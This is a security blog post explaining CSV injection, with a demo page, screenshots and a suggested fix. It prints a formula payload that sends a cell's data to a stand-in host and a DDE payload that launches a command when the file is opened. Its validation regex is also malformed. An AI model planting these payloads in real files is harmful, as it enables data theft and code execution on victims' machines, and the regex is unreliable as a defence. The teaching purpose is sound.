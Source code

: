 ```yaml
---
slug: is-csv-secure/
title: Is that CSV Secure?
date: 2017-12-22
category: attacks
subtitle: Defining CSV injection vulnerabilities
tags: cybersecurity, csv, code, web
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330929/blog/is-csv-secure/cover_tteaiz.webp
alt: Blank CSV document icon
description: Comma-Separated Values file is a common extension in data files used in several application fields. Here we present a CSV vulnerability most people ignore.
keywords: CSV, Security, Vulnerability, Code, Web, Spreadsheet, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/Wpnoqo2plFA
---
```


Comma-Separated Values file (or CSV) is a type of file that stores
tabular data, numbers and text in plain text. Each line of the file is a
data record and each record consists of one or more fields separated by
commas. CSV is a common data exchange format that is widely supported by
consumer, business, and scientific applications. As an example, a user
may need to transfer information from a database program that stores
data in a proprietary format, to a spreadsheet that uses a completely
different format. The database program most likely can export its data
as "CSV"; the exported CSV file can then be imported by the spreadsheet
program.

<div class="imgblock">

![example](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/csv-example_et64py.webp)

</div>

There is a vulnerability in this types of format that the most of
programmers ignores, that is "CSV Injection". As
[OWASP](https://www.owasp.org/index.php/CSV-Injection) says, it occurs
when websites embed untrusted input inside CSV files, when a spreadsheet
program is used to open a CSV file, any cell starting with '**=**' is
considered as a formula and crafted formulas can be used to malicious
attacks.

## CSV Injection Example

We have a page that stores data on a table and exports it on a CSV file

<div class="imgblock">

![page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/csv-example_et64py.webp)

</div>

We put some normal data and nothing happens

<div class="imgblock">

![input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/normal-input_tryyrw.webp)

</div>

<div class="imgblock">

![result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/normal-result_twbflm.webp)

</div>

But what happens if we put a formula like =2+5 in a field?

<div class="imgblock">

![formula-input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/formula-input_x6toul.webp)

</div>

<div class="imgblock">

![formula-result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/formula-result_tuzdgy.webp)

</div>

On our table nothing happens, but when we open the CSV file we get the
result of the formula that we introduced. This can be very dangerous if
someone introduce a more dangerous code like

``` text
  =HYPERLINK("http://dangerous.com?x="&A3&"[CR]","Error fetching info: Click me to resolve.")
```

When the user open the file it shows a link with our malicious site

<div class="imgblock">

![vuln](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/hyperlink-vuln_mlaocr.webp)

</div>

Also we can execute commands on the target with this formula injection,
in where we open the calc when someone opens the CSV file

``` text
  =cmd|' /C calc'!A0
```

It shows some warnings but the user trust in the source of the file and
accept

<div class="imgblock">

![warning-1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330925/blog/is-csv-secure/first-warning_wbfqyq.webp)

</div>

<div class="imgblock">

![warning-2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/second-warning_hha72t.webp)

</div>

And then the code execution

<div class="imgblock">

![exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/exec-example_bumpxl.webp)

</div>

The effectiveness of this vulnerability is that the user trust on the
source of the file without asking himself if is the normal behaviour
when someone opens a CSV file and the program asks form permission

### Solution

- First is user awareness, because Windows shows an alert when someone
  puts command execution code in the CSV file like we’ve seen

- Second, input validation, the most common characters to do this
  attack are:

<!-- end list -->

``` text
  =,+,-,@
```

A developer could make a validation like this regex

**validation.js.**

``` javascript
var regexp = new RegExp(/([=,-,+,@])/g);
```

And blocking this types of input, also, can put a space between the
dangerous character like ' =' to mitigate this vulnerability

``` javascript
if(regexp.test(formData.sdata1)){
  formData.sdata1 = " "+formData.sdata1
}
if(regexp.test(formData.sdata2)){
  formData.sdata2 = " "+formData.sdata2
}
```

In this example we can see that the spreadsheet program doesn’t
calculate the formula and our input is secure

<div class="imgblock">

![secure-input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/secure-input_bisups.webp)

</div>

<div class="imgblock">

![secure-result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330924/blog/is-csv-secure/secure-result_sfsxxc.webp)

</div>

The source code of the page for testing can be found
[here](csvinjection.zip)
